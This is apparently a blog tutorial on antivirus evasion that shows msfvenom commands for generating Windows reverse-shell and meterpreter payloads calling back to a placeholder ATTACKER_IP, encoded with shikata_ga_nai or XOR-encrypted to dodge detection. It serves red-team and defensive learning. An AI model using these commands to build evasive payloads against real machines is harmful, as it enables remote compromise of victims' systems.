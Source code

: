 ```yaml
---
layout: post
title: "AV Evasion Techniques Part 4: Packing and Encoding Payloads for Evasion"
date: 2025-08-26
categories: [Red Team,Malware Development,Malware Analysis,Blue Team,Cybersecurity]
image: https://cdn-images-1.medium.com/max/800/1*15gFAZAWtcufSSqBVCBpCg.jpeg
---
```


**Shellcode Encoding and Encryption**

**Encode using MSFVenom**

Public Tools such as **Metasploit** provide encoding and encryption features. However, AV vendors are aware of the way these tools build their payloads and take measures to detect them. If you try using such features out of the box, chances are your payload will be detected as soon as the file touches the victim’s disk

Let’s generate a simple payload with this method to prove that point. First of all, you can list all of the encoders available to **msfvenom** with the following command:

> **msfvenom — list encoders | grep excellent**

We can indicate we want to use the **shikata\_ga\_nai** encoder with the **-e** encoder switch and then specify we want to encode the payload three times with **-i** (iterations) switch:

> **msfvenom –a x86 –platform windows LHOST=ATTACKER\_IP LPORT=443 –p windows/shell\_reverse\_tcp –e x86/shikata\_ga\_nai –b’\\x00’ –i 3 –f csharp**

> **Payload size: 422 bytes**

> **Final size of sharp file: 2170 bytes**

If we try uploading our newly generated payload to our test machine, the Av will instantly flag it before we even get a chance to execute it.

if encoding doesn’t work, we can always try encrypting the payload intuitively, we would expect this to have a higher success rating, as decrypting the payload should prove a harder task for the AV, Let’s try that now.

**Encryption using MSFVenom**

You can easily generate encrypted payloads using **msfvenom**. The choices for encryption algorithms are, however, a bit scarce. To list the avaliable encryption algorithms, you can use the following command:

> **msfvenom –list encrypt**

Let’s build an XOR encrypted payload. for this type of algorithm, you will need to specify a key. The command would look as follows:

**Xoring Shellcode using the Metasploit Framework**

> **Msfvenom –p windows/x64/meterpreter/reverse\_tcp LHOST=ATTACKER\_IP LPORT=7788 –f exe –encrypt xor –encrypt-key “keyyyyy” –o xored-revshell.exe**

Payload size: 510 bytes
